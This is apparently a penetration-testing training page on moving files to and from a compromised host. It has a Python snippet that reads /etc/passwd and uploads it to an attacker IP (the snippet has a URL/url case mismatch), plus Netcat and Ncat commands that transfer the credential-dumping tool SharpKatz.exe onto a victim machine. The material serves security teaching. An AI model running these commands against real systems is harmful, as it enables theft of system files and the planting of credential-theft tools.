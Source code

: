 Code: python

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```



# Miscellaneous File Transfer Methods
We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)) using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

#### NetCat - Compromised Machine - Listening on Port 8000

  NetCat - Compromised Machine - Listening on Port 8000

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

## Ncat - Compromised Machine - Listening on Port 8000
  
Ncat - Compromised Machine - Listening on Port 8000

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

  Netcat - Attack Host - Sending File to Compromised machine

```shell-session
gdxqpardo@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
gdxqpardo@htb[/htb]$ # Example using Original Netcat
gdxqpardo@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
